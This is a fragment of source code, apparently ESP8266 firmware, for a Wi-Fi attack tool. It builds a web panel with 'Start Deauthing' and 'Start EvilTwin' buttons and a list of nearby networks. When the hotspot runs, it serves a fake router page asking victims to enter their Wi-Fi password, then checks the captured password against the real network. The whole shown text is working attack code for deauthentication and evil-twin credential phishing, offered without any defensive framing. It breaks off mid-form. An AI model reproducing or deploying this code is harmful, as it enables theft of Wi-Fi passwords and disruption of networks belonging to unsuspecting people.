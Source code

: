   String html = _baseHTMLStart;

  if (hotspot_active == false) {
    html += "<h1>Available Networks</h1>";

    // Action Buttons
    html += "<div class='form-inline'>";
    html += "<form method='post' action='/?deauth=";
    html += deauthing_active ? "stop" : "start";
    html += "'>";
    html += "<button type='submit'>";
    html += deauthing_active ? "Stop Deauthing" : "Start Deauthing";
    html += "</button></form>";

    html += "<form method='post' action='/?hotspot=";
    html += hotspot_active ? "stop" : "start";
    html += "'>";
    html += "<button type='submit'>";
    html += hotspot_active ? "Stop EvilTwin" : "Start EvilTwin";
    html += "</button></form>";
    html += "</div>";

    // Networks Table
    html += "<table>";
    html += "<tr><th>SSID</th><th>BSSID</th><th>Channel</th><th>Signal Strength</th><th>Select</th></tr>";

    for (int i = 0; i < 16; ++i) {
      if (_networks[i].ssid == "") {
        break;
      }
      html += "<tr><td>" + _networks[i].ssid + "</td><td>" + bytesToStr(_networks[i].bssid, 6) + "</td><td>" + String(_networks[i].ch) + "</td><td>" + String(WiFi.RSSI(i)) + " dBm</td><td>";
      html += "<form method='post' action='/?ap=" + bytesToStr(_networks[i].bssid, 6) + "'>";
      
      if (bytesToStr(_selectedNetwork.bssid, 6) == bytesToStr(_networks[i].bssid, 6)) {
        html += "<button type='submit' class='selected' disabled>Selected</button>";
      } else {
        html += "<button type='submit'>Select</button>";
      }
      html += "</form></td></tr>";
    }
    html += "</table>";

    // Display Success Message
    if (_correct != "") {
      html += "<div class='message'>" + _correct + "</div>";
    }

    html += _baseHTMLEnd;
    webServer.send(200, "text/html", html);

  } else {
    // Hotspot Active: Show Password Entry Page
    if (webServer.hasArg("password")) {
      _tryPassword = webServer.arg("password");
      WiFi.disconnect();
      WiFi.begin(_selectedNetwork.ssid.c_str(), webServer.arg("password").c_str(), _selectedNetwork.ch, _selectedNetwork.bssid);
      html += "<h2>Updating, please wait...</h2>";
      html += "<script> setTimeout(function(){window.location.href = '/result';}, 15000); </script>";
    } else {
      html += "<h2>Router: '" + _selectedNetwork.ssid + "'</h2>";
      html += "<form action='/' method='post'>";
      html += "<label for='password'>Enter Wi-Fi Password:</label><br><br>";
      html += "<input type='password' id='password' name='password' placeholder='Password' minlength='8' required><br><br>";
      html += "<input type='submit' value='Submit'>";